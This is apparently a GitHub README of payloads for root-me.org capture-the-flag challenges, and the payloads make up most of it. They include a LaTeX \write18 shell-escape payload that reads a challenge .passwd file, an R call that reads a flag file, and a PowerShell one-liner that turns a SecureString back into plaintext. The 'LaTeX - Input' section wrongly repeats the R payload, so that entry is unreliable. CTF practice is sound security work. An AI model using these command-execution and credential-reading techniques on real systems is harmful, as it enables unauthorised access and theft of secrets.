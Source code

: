 # root-me.org-payloads

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 
```LaTex
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```
